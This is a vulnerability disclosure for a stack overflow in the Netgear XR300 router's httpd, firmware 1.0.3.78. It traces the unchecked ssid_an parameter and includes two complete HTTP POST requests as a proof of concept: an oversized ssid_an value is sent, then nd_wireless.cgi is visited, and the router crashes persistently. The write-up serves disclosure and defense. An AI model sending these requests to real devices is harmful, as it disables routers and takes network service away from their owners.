



# Netgear Vulnerability

Vendor:Netgear

Product:XR300

Version:1.0.3.78

Type:Stack Overflow

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn


## Vulnerability description

We found an stack overflow vulnerability in Netgear router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `httpd` binary:

In the router's `bridge_wireless_main.cgi` function, `ssid_an` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `ssid_an` to execute arbitrary code.

As you can see here, the input has not been checked. And then,call the function `acosNvramConfig_set ` to store this input.

<div  align="center"></div>

Eventually, in `nd_wireless.cgi` function. The parameter `ssid_an` is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"></div>

**Supplement**

The trigger point of this vulnerability is deep in the program path, so we recommend that the string content should be strictly checked when extracting user input.

Vulnerability trigger steps:

* set `ssid_an`, in `bridge_wireless_main.cgi`
* visit the `nd_wireless.cgi`


## PoC

We set `ssid_an` as **aaaaa......**, in `bridge_wireless_main.cgi`

```http
POST /bridge_wireless_main.cgi?id=921989615a13a6e87c34d463f8a3bd3cf98e06d28cc6bdf118e429bb9b5a72aa HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 1545
Origin: http://192.168.1.1
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Referer: http://192.168.1.1/WLG_bridge_wireless_settings.htm
Cookie: XSRF_TOKEN=2528261345
Upgrade-Insecure-Requests: 1

Apply=%E5%BA%94%E7%94%A8&interface=Wireless+Networks+%285Ghz+n%2Fac%29&ssid=NETGEAR10&security_type=WPA2-PSK&authAlgm=automatic&wepenc=1&wep_key_no=1&KEY1=&KEY2=&KEY3=&KEY4=&passphrase=newtuba722&ssid_an=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&security_type_an=WPA2-PSK&passphrase_an=newtuba722&tempSetting=0&wds_enable=0&wds_enable_an=0&only_mode=0&show_wps_alert=0&security_type_2G=WPA2-PSK&security_type_5G=WPA2-PSK&initAuthType=automatic&initDefaultKey=0&initAuthType_an=automatic&initDefaultKey_an=0&telec_dfs_ch_enable=1&enable_stamode=0&wireless_interface=1&fw_sku=SKU_WW
```

<div  align="center"></div>

visit the `nd_wireless.cgi`

```http
POST /nd_wireless.cgi?id=76b3f53644a6614de14532a3e0cec2e038e3f4a20e50261608770f297bce7590 HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 173
Origin: http://192.168.1.1
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Referer: http://192.168.1.1/ND_wifi_setting.htm
Cookie: XSRF_TOKEN=2528261345
Upgrade-Insecure-Requests: 1

wl_sec_wpaphrase_len=10&wla_sec_wpaphrase_len=10&hid_apply_time=1728034153&hid_same_ssid=0&ssid=NETGEAR10&passphrase=newtuba722&ssid_an=NETGEAR10-5G&passphrase_an=newtuba722
```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div>
